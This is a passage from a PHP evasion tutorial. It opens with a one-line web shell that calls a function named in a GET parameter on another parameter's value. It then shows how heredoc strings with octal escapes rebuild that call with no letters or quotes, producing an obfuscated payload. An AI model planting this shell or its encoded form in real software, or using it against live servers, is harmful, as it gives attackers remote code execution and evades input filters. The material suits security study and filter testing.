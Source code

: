 ```php
$_GET['a']($_GET['b']);
```

## Technique #1: No letters, no quotes

This first technique gets rid of quotes and letters, but using [_heredocs_ strings](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc).

As the doc says:

>
>A third way to delimit strings is the heredoc syntax: <<<. After this operator, an identifier is provided, then a newline. The string itself follows, and then the same identifier again to close the quotation.
>

Heredocs makes it possible to create multiline strings, such as:

```php
$var = <<<_
Hello world
_;
```

In this case, the _identifier_ is a simple underscore symbol. Note that the new lines after the first marker and before the second one are not part of the string. It means that `echo "*$var/";` would print `*Hello world/`.

Compared to _nowdocs_, _heredocs_ are like double-quoted strings, which means that it interprets escaping sequences and performs string interpolation. Therefore, the following snippet of code would set the variable `$x` equal to the character `'a'`, written here is octal:

```php
$x = <<<_
\141
_;
```

Variable functions can therefore be created:

```php
$filter_input = <<<_
\146\151\154\164\145\162\137\151\156\160\165\164
_;
```

and therefore, calling `filter_input(0, 'a')(filter_input(0, 'b'))` would be done as follows:

```php
(<<<_
\146\151\154\164\145\162\137\151\156\160\165\164
_)(0, <<<_
\141
_)((<<<_
\146\151\154\164\145\162\137\151\156\160\165\164
_)(0, <<<_
\142
_));
```
